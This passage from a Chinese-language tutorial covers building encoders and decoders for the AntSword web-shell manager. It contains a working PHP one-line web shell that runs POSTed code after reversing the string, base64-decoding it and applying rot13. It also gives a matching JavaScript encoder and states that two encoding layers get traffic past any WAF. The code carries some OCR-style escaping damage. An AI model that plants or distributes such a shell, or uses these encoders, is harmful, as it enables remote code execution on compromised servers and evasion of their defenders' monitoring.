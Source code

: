 这个缺陷可以通过修改一句话服务端来去除。由于 antsword 非常灵活，只要可以保证一句话服务端的解码过程和 antsowrd 的编码过程对应就可以。  
比如使用如下的一句话服务端

```
<?php @eval(str\_rot13(base64\_decode(strrev($\_POST\['heheda'\]))));?>
```

观察可知，服务端接收到字符串后，先反转字符串，再 base64 解码，再 rot13 编码, 据此可以写出编码器如下

```
'use strict';
module.exports =(pwd, data, ext={})=>{
const rot13encode =(s)=>{
return s.replace(/\[a-zA-Z\]/g,function(c){
returnString.fromCharCode((c <="Z"?
90:
122)>=(c = c.charCodeAt(0)+13)?
        c :
        c -26);
});
}
// 字符串反转 reverseString("abc") == "cba"
const reverseString =(s)=>{
return s.split('').reverse().join('');
}
  data\[pwd\]= reverseString(Buffer.from(rot13encode(data\['\_'\])).toString('base64'));
delete data\['\_'\];
return data;
}
```

这里简单解释下，定义了两个函数，分别是 rot13 编码和字符串反转。  
然后就是把原始 php 代码 rot13 编码，再 base64 编码，最后反转整个字符串。

antsword 有一些别人开发好的编码器，可以根据需要修改，链接如下：  
https://github.com/AntSwordProject/AwesomeEncoder

就实际效果而言，两层编码就没有 waf 会拦截流量了。像 rsa 之类的没有太大必要。

### 2 解码器开发

编码器是对发送的数据进行变形，解码器则是对一句话服务端执行完后返回的数据变形。一般用不到。这里讲一下用法并解释一下默认解码器的写法。

解码器不需要修改一句话服务端。

默认生成的 base64 解码器代码如下

```
'use strict';
module.exports ={
/\*\*
   \* @returns {string} asenc 将返回数据base64编码
   \* 自定义输出函数名称必须为 asenc
   \* 该函数使用的语法需要和shell保持一致
   \*/
  asoutput:()=>{
return\`function asenc($out){
      return @base64\_encode($out);
    }
    \`.replace(/\\n\\s+/g,'');
},
/\*\*
   \* 解码 Buffer
   \* @param {string} data 要被解码的 Buffer
   \* @returns {string} 解码后的 Buffer
   \*/
  decode\_buff:(data, ext={})=>{
returnBuffer.from(data.toString(),'base64');
}
```